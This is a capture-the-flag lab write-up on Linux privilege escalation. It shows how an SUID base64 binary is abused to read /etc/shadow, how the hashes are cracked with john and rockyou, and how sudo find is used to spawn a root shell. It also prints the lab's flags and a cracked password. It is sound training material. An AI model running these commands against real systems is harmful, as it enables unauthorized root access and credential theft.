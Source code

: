# Linux Privilege Escalation – Capstone Lab Writeup

## Challenge Overview

In this Linux privilege escalation challenge, we were provided with SSH credentials for an initial user. From there, the goal was to enumerate the system, escalate privileges using misconfigured permissions, and capture two flags located in different user and root-owned directories.

---

## FLAG 1 – Gaining Access and Enumerating Privileges

**Initial Access:**

- Logged in via SSH using the provided credentials for user `leonard`.

**Enumeration Performed:**

```bash
whoami
sudo -l
uname -a
find / -type f -perm -04000 2>/dev/null
```

![2025-04-30_14-41](https://github.com/user-attachments/assets/bd852660-cfc6-4558-a69f-55c2eab6f195)
![2025-04-30_14-42](https://github.com/user-attachments/assets/ba8f03c8-3e98-4f55-a772-e3f116c34b8a)
![base64](https://github.com/user-attachments/assets/1b37e96b-fcf6-4d71-93f4-851edfe5a839)


**Findings:**
- User `leonard` cannot use `sudo`.
- Kernel version: `3.10`
- SUID binary discovered: `/usr/bin/base64`

**Exploitation via SUID `base64`:**

```bash
export shadows="/etc/shadow"
base64 $shadows | base64 -d
```

![2025-04-30_14-48](https://github.com/user-attachments/assets/ad7730a0-4354-47f8-ae6f-753872cbdebb)
![2025-04-30_14-48_1](https://github.com/user-attachments/assets/824edc8b-f924-4ec9-b7ca-7866f0019fee)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt missy.txt
```

![2025-04-30_14-53](https://github.com/user-attachments/assets/1cc33718-52b5-400a-9af1-f06c72001bac)

- Extracted and cracked password hashes for users `missy`, `leonard`, and `root`.
- Used `john` with `rockyou.txt` to crack the hash for user `missy`.
- Password discovered: `Password1`

**Escalated to user `missy`** via SSH.

**Sudo permissions:**

```bash
sudo -l
```

![2025-04-30_14-55](https://github.com/user-attachments/assets/ff1f83b8-3fde-4b63-bb8a-6f179b26fd55)


- Result: User `missy` can execute `find` as root.

**Locate first flag:**

```bash
find / -type f -name flag1.txt 2>/dev/null
```

- Result: `/home/missy/Documents/flag1.txt`

![flag1](https://github.com/user-attachments/assets/029a690b-151d-4c79-8fa2-a97d30015478)

**Flag 1 obtained.**

Flag 1: `THM-42828719920544`

---

## FLAG 2 – Privilege Escalation to Root

With access as user `missy` and the ability to run `find` with `sudo`, I leveraged a known GTFOBins trick:

```bash
sudo find . -exec /bin/sh -p \; -quit
```

- Result: Spawned a root shell.

![2025-04-30_17-46](https://github.com/user-attachments/assets/1394ae60-87f2-4a7c-8d18-bd4c7af5f74f)

**Navigated to rootflag directory and retrieved second flag:**

```bash
cd ../rootflag
cat flag2.txt
```

![2025-04-30_17-47](https://github.com/user-attachments/assets/362d567d-63cd-4b4c-bfc9-a908f3f049ad)

**Flag 2 obtained.**

Flag 2: `THM-168824782390238`

---

## Conclusion

This challenge demonstrated practical Linux privilege escalation concepts including:

- Abuse of SUID binaries to read sensitive files
- Cracking password hashes using `john`
- Using `sudo` misconfigurations with `find` for root access

It’s a strong reminder of why system hardening and privilege boundaries are critical for security.

